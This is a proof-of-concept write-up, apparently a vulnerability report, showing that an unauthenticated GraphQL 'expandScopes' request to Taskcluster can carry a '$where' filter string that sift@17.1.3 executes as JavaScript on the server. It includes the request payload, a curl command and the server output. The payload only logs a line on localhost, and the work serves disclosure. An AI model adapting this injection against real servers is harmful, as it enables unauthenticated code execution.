


# A GraphQL filter makes Taskcluster run JavaScript on the server

This PoC reproduces the problem locally with Taskcluster commit [`f48168b7c3a8a8f78c4463cde98c1218a9edc6c6`](https://github.com/taskcluster/taskcluster/tree/f48168b7c3a8a8f78c4463cde98c1218a9edc6c6). It sends a `POST` request to `/graphql` without an `Authorization` header and asks Taskcluster to run `expandScopes`. The request includes a filter whose `$where` value is a JavaScript string. Taskcluster passes that filter to `sift@17.1.3`, and this version of `sift` runs the string as JavaScript inside the web server.

The JavaScript in this PoC only prints one line in the local server terminal and returns `true`. It does not start another program, read a file, look for passwords or tokens, change saved data, or connect to another computer.

There is one important limit to keep in mind before running the test. Taskcluster normally asks its separate Auth service which scopes it should return. Starting the complete Auth service would require its database and settings, so the supplied start script replaces that one request with a local function that returns the scope from the PoC. Everything after that reply is Taskcluster's own code: the web server reads the HTTP request, GraphQL calls `expandScopes`, the scope loader passes the filter to `sift`, and `sift` runs the string inside `$where`. For that reason, this PoC proves that the supplied filter can run JavaScript after Auth returns the scopes, but it does not prove which scopes a complete Taskcluster installation would return to an anonymous caller.



## What you need before you start

You need this PoC folder, a local copy of the `taskcluster/taskcluster` repository, and Node.js 24. Taskcluster asks for Node.js `24.15.0`; the test recorded below used `24.19.0`. No Taskcluster account, login cookie, API key, or other credential is needed because the HTTP request deliberately leaves out the `Authorization` header.

The recorded test used these values:

- Taskcluster commit: `f48168b7c3a8a8f78c4463cde98c1218a9edc6c6`
- Local URL: `http://127.0.0.1:3211/graphql`
- GraphQL query: `expandScopes`
- Installed `sift` version: `17.1.3`
- Node.js version used: `24.19.0`
- Test time: `2026-09-25 11:19:41 UTC`

## 1. Check out the affected Taskcluster version

Open a terminal in your Taskcluster repository, switch to the affected commit, and install the exact package versions saved in the repository:

```bash
cd /path/to/taskcluster
git switch --detach f48168b7c3a8a8f78c4463cde98c1218a9edc6c6
corepack yarn install --immutable
```

Once the install finishes, run the following commands from the same directory. They show the commit, the Node.js version, the installed `sift` version, and whether `CSP_ENABLED` is set:

```bash
git rev-parse HEAD
node -p '[process.version, require("./node_modules/sift/package.json").version, String(process.env.CSP_ENABLED)].join("\n")'

f48168b7c3a8a8f78c4463cde98c1218a9edc6c6
v24.19.0
17.1.3
undefined
```

The last line says `undefined` because `CSP_ENABLED` was not set. This matters because [`sift@17.1.3` checks that setting before handling `$where`](https://github.com/crcn/sift.js/blob/v17.1.3/src/operations.ts#L385-L402). When the setting is missing or empty and `$where` contains a string, `sift` gives the string to `new Function()` and Node.js reads it as JavaScript. When `CSP_ENABLED` contains any non-empty value, `sift` stops with an error before it reaches `new Function()`.

The relevant `sift` code is shown below:

```javascript
export const $where = (
  params: string | Function,
  ownerQuery: Query<any>,
  options: Options,
) => {
  let test;
  if (isFunction(params)) {
    test = params;
  } else if (!process.env.CSP_ENABLED) {
    test = new Function("obj", "return " + params);
  } else {
    throw new Error(
      `In CSP mode, sift does not support strings in "$where" condition`,
    );
  }

  return new EqualsOperation((b) => test.bind(b)(b), ownerQuery, options);
};
```

## 2. Start the local Taskcluster web server

Open a second terminal in this PoC folder and pass the path of the Taskcluster repository to the start script:

```bash
cd /path/to/taskcluster-sift-rce-reproduction
node start-local-server.mjs /path/to/taskcluster
```

The script first checks that the selected Taskcluster repository has `sift@17.1.3`. It then asks Taskcluster's own [`main.js`](https://github.com/taskcluster/taskcluster/blob/f48168b7c3a8a8f78c4463cde98c1218a9edc6c6/services/web-server/src/main.js#L166-L195) to create the web server and binds it to `127.0.0.1`, so only programs on the same computer can reach it. When the server is ready, the terminal shows:

```text
Taskcluster web-server: http://127.0.0.1:3211/graphql
```



The script does not connect to Taskcluster's database, message service, or the other Taskcluster services because this query does not use them. It gives the web server empty local objects in their place. As explained above, it also replaces the outgoing Auth request with a small local function that returns `assume:anonymous`, which is the scope supplied in the request. The incoming request still goes through Taskcluster's real [`/graphql` route and credential-reading code](https://github.com/taskcluster/taskcluster/blob/f48168b7c3a8a8f78c4463cde98c1218a9edc6c6/services/web-server/src/servers/createApp.js#L82-L91), then through its [`Scopes` resolver and scope loader](https://github.com/taskcluster/taskcluster/blob/f48168b7c3a8a8f78c4463cde98c1218a9edc6c6/services/web-server/src/loaders/scopes.js#L18-L30).

## 3. Send the GraphQL request

Leave the server running and open a third terminal in this PoC folder. The request body is already saved in [`request.json`](./request.json), and its full contents are included here so there is no hidden input:

```json
{
  "operationName": "Verify",
  "query": "query Verify($scopes: [String]!, $filter: JSON) { expandScopes(scopes: $scopes, filter: $filter) }",
  "variables": {
    "scopes": ["assume:anonymous"],
    "filter": {
      "$where": "(console.log(\"POC: $where ran inside the server for \" + String(this)), true)"
    }
  }
}
```

Taskcluster calls each permission a [`scope`](https://github.com/taskcluster/taskcluster/blob/f48168b7c3a8a8f78c4463cde98c1218a9edc6c6/dev-docs/best-practices/scopes.md), so this request uses one permission named `assume:anonymous`. The text inside `$where` prints that name in the server terminal and then returns `true`, which tells `sift` to keep the value in the GraphQL response.

Send the request with the following command. Do not add an `Authorization` header:

```bash
curl -sS -w '\nHTTP %{http_code}\n' \
  'http://127.0.0.1:3211/graphql' \
  -H 'Content-Type: application/json' \
  --data-binary @request.json
```

The terminal that sent the request received:

```text
{"data":{"expandScopes":["assume:anonymous"]}}

HTTP 200
```

This response shows that GraphQL handled the request and kept `assume:anonymous`, but the response by itself does not prove that the JavaScript string ran. To confirm that part, return to the terminal where the server is running.

## 4. Confirm that the JavaScript ran in the server

After the request arrived, the server terminal printed:

```text
HTTP credentials: none
Auth returned scopes: ["assume:anonymous"]
POC: $where ran inside the server for assume:anonymous
```

The first line confirms that Taskcluster did not find credentials in the incoming HTTP request. The second line comes from the local Auth replacement and shows the scope it returned. The final line comes from the JavaScript string inside `$where`. It appears in the server terminal because `sift@17.1.3` gave that string to `new Function()` and ran it while checking `assume:anonymous`.

In other words, the same request moved through the code in this order: Taskcluster accepted the `POST /graphql` request, found no `Authorization` header, called `expandScopes`, received `assume:anonymous` from the local Auth replacement, and passed that scope together with the supplied filter to `sift@17.1.3`. At that point, `sift` ran the `console.log` statement from `$where`, which produced the final line above.

## Expected and actual result

**Expected:** Taskcluster should treat the text inside the GraphQL filter as data. Text sent by the client should not become JavaScript and run inside the web server.

**Actual:** After the local Auth replacement returned the scope, Taskcluster passed the request's filter to `sift@17.1.3`. `sift` read the `$where` string as JavaScript and printed `POC: $where ran inside the server for assume:anonymous` in the web-server terminal.

## Safety and cleanup

This test stays on the local computer because the server listens on `127.0.0.1`. The supplied JavaScript only calls `console.log` and returns `true`, so it does not create a file, change stored data, read sensitive information, or open a network connection.

When the test is finished, return to the server terminal and press `Ctrl+C`. The request leaves no data or file behind, so no other cleanup is needed.
